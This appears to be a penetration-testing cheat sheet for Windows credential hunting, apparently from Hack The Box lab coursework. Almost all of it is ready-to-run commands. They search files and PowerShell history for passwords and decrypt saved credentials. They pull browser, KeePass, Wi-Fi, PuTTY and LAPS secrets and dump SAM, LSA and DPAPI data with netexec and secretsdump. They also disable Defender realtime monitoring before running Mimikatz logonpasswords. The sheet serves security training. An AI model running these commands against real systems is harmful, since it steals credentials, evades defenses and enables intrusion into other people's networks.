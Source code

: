 
#Credential
#### Credential Hunting

**Application Configuration Files**

- Searching for Files
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

 - Dictionary Files
```powershell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

**PowerShell History File**

- Confirming PowerShell History Save Path :
```powershell-session
(Get-PSReadLineOption).HistorySavePath
```

- Reading PowerShell History File
```powershell
gc (Get-PSReadLineOption).HistorySavePath
```

- One-liner command : 
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

**PowerShell Credentials**

- Decrypting PowerShell Credentials:

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```

#### Other Files

- Tools :  https://github.com/SnaffCon/Snaffler

-  Search File Contents for String - Example 1:
```cmd
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
```

-  Search File Contents for String - Example 2:
```cmd
findstr /si password *.xml *.ini *.txt *.config 
findstr /si $password *.bat *.ps1
findstr /si $user *.bat *.ps1
```

-  Search File Contents for String - Example 3:
```cmd
findstr /spin "password" *.*
```

- Search File Contents with PowerShell:
```powershell
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
```

- Search for File Extensions - Example 1
```cmd
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

- Search for File Extensions - Example 2
```cmd
 where /R C:\ *.config
```

- Search for File Extensions Using PowerShell
```powershell
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

- Download PSSqlite:
```sh
wget https://github.com/RamblingCookieMonster/PSSQLite
```

- Viewing Sticky Notes Data :
```powershell
Set-ExecutionPolicy Bypass -Scope Process

cd .\PSSQLite\
Import-Module .\PSSQLite.psd1

$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'

Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```

- Other Interesting Files :
```sh
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

#### More Credential Theft

**Cmdkey Saved Credentials**

- Listing Saved Credentials
```cmd
cmdkey /list
```

- Run Commands as Another User
```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

**Browser Credentials**

- Download SharpChrome : 
```sh
wget https://github.com/GhostPack/SharpDPAPI

https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe

./sharp.exe machinetriage /showall
```

- Retrieving Saved Credentials from Chrome :
```powershell
.\SharpChrome.exe logins /unprotect
```

**Password Managers**

If we find a `.kdbx` file on a server, workstation, or file share, we know we are dealing with a `KeePass` database which is often protected by just a master password. If we can download a `.kdbx` file to our attacking host, we can use a tool such as keepass2john to extract the password hash

- Find kdbx file :
```sh
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction
SilentlyContinue
```
- Extracting KeePass Hash
```sh
python keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

**Email**

If we gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, we can attempt to search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool MailSniper .
- Tool : 
https://github.com/dafthack/MailSniper

 **Tools**

- Download LaZagne:
 ```sh
wget  https://github.com/AlessandroZ/LaZagne
 ```
 
- Run LaZagne : 

```powershell
.\lazagne.exe all
```

**OR**

- Download SessionGopher :
```sh 
wget https://github.com/Arvanaghi/SessionGopher
 ```

- Use SessionGopher :
```powershell-session
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

**Or:**

- Seatbelt 
https://github.com/GhostPack/Seatbelt
```shell
Seatbelt.exe -group=all -full
```

**Windows AutoLogon**

```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**Enumerating Sessions **

```powershell-session
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

**Wifi Passwords**

- Viewing Saved Wireless Networks
```cmd
netsh wlan show profile
```

- Retrieving Saved Wireless Passwords
```cmd
netsh wlan show profile ilfreight_corp key=clear
```

**Netexec:**
```sh
netexec smb 10.10.212.150 -u "Administrator" -p "H447.++h6g5}xi" --dpapi --local-auth
nxc smb 10.10.202.39 --use-kcache -lsa --sam --dpapi
nxc smb 192.168.250.170-172 -u 'joker' -p '<3batman0893' -M gpp_password
```

**Impacket :**
```sh
secretsdump 'ms01/administrator:H447.++h6g5}xi@10.10.234.54'
```

**Mimikatz:**

- Use Mimikatz:
```cmd
Set-MpPreference -DisableRealtimeMonitoring $true

.\mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

**Laps:**

```powershell
net user <current-username>
# Global Group memberships  *LAPS_Readers
netexec smb 10.10.211.230 -u abbie.smith -p "CMe1x+nlRaaWEw" --laps
```

-  **Laps v2 :** 
```powershell
Get-LAPSADPassword  -Identity srv
Get-LapsADPassword -Identity srv -DomainController dc -AsPlainText
```